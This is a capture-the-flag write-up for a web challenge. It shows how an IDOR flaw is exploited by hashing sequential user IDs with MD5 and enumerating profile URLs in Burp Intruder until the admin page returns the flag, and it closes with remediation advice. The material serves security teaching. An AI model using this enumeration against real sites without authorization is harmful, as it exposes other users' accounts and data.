





# Hashgate — Medium

> **Category:** Web Exploitation
> **Flag:** `academy{id0r_unl0ck_279c8358}`

## Challenge Overview

A login-gated app grants access with hardcoded guest credentials, then
identifies the logged-in user by an MD5 hash embedded directly in the URL.
Since that hash is just `MD5(user_id)` with no server-side authorization
check behind it, incrementing the underlying ID and re-hashing it is enough
to impersonate a higher-privileged user — a classic **Insecure Direct
Object Reference (IDOR)**, just with the object reference obscured by a
hash instead of hidden entirely.



## TL;DR

The app "protects" user profile URLs by hashing the numeric ID with MD5
instead of checking whether the logged-in session is actually authorized
to view that profile. Since MD5 is fast and unsalted, and the ID space is
small and sequential, brute-forcing nearby IDs and hashing each one finds
the admin's hashed URL directly — no password or session bypass needed.

## Step-by-Step

### 1. Find the login page

The challenge starts at a simple login form — no visible way in without
credentials.

### 2. Inspect the page source for hardcoded credentials

Viewing the page source reveals a comment left in the `<head>` containing
working guest credentials:



```
Email: guest@cylabacademy.org
Password: guest
```

### 3. Log in and note the access level

Logging in with those credentials lands on a profile page stating:

```
Access level: Guest (ID: 3000). Insufficient privileges to view classified
data. Only top-tier users can access the flag.
```

This confirms the account is tied to a numeric ID (`3000`) and that a
higher-privileged account exists somewhere with a different ID.

### 4. Inspect the request in Burp Suite

Routing the request for the profile page through Burp shows the actual
endpoint being hit:



```
GET /profile/user/e93028bdc1aacdfb3687181f2031765d HTTP/1.1
```

The "user" identifier in the URL isn't the plain ID `3000` — it's an MD5
hash. Hashing `3000` locally confirms it:

```
md5("3000") = e93028bdc1aacdfb3687181f2031765d
```

So the app is authorizing access purely based on whether you *know* the
right hash for an ID — not on any actual session-based permission check.

### 5. Generate hashes for nearby IDs

Since guest is `ID 3000`, it's reasonable to guess the admin (or another
privileged account) sits at a nearby ID. A short Python script generates
MD5 hashes for a small range around it:

```python
import hashlib

for i in range(3000, 3011):  # 3000 to 3010 inclusive
    value = str(i)
    md5_hash = hashlib.md5(value.encode()).hexdigest()
    print(f"{value}: {md5_hash}")
```

Output:

```
3000: e93028bdc1aacdfb3687181f2031765d
3001: 908c9a564a86426585b29f5335b619bc
3002: d806ca13ca3449af72a1ea5aedbed26a
3003: a4380923dd651c195b1631af7c829187
3004: 20479c788fb27378c2c99eadcf207e7f
3005: 3a61ed715ee66c48bacf237fa7bb5289
3006: 5f268dfb0fbef44de0f668a022707b86
3007: a724b9124acc7b5058ed75a31a9c2919
3008: c02f9de3c2f3040751818aacc7f60b74
3009: ee16fa83c0f151ef85e617f5aa3867a6
3010: 22722a343513ed45f14905eb07621686
```

### 6. Brute-force the endpoint with Burp Intruder

Rather than testing each hash manually, the generated list is loaded as a
payload set in Burp Intruder, targeting the hash portion of the URL:



### 7. Run the attack and check the results

Running the attack against all 10 hashes shows one clear outlier — every
guessed ID returns `404`, except `ID 3010`, which returns `200 OK` with a
noticeably different response length:



```
GET /profile/user/22722a343513ed45f14905eb07621686 HTTP/1.1
```
```
200 OK
Welcome, admin! Here is the flag: academy{id0r_unl0ck_279c8358}
```

## Root Cause

This is an **IDOR (Insecure Direct Object Reference)** vulnerability. The
app uses a client-visible, predictable identifier (a sequential numeric
user ID) to determine which profile to serve, and only obscures it with an
unsalted hash rather than performing a real authorization check tied to
the logged-in session. Since:

- The ID space is small and sequential (no randomness/UUIDs),
- MD5 is fast to compute at scale, and
- There's no rate limiting or authorization check on `/profile/user/:hash`,

...the "obfuscation" adds essentially no real security. Anyone can enumerate
IDs, hash each candidate, and be served any user's data — including admin's.

## Remediation

- Enforce **authorization**, not just identification: check that the
  logged-in session is actually allowed to view the requested profile,
  regardless of what ID or hash is in the URL.
- Don't rely on hashing a small, predictable value as an access control
  mechanism — hashing a guessable value is still guessable.
- Use non-sequential, high-entropy identifiers (e.g. UUIDs) if IDs must
  appear in URLs at all, and pair them with real permission checks.
- Rate-limit and monitor for enumeration patterns against ID/lookup
  endpoints.
- Never leave credentials, even "guest" ones, hardcoded in HTML comments
  or client-side source.

## Tools Used

- Browser DevTools — viewing page source for hardcoded credentials
- [Burp Suite](https://portswigger.net/burp) — intercepting requests and
  running Intruder to brute-force the hashed user IDs
- Python (`hashlib`) — generating MD5 hashes for candidate IDs
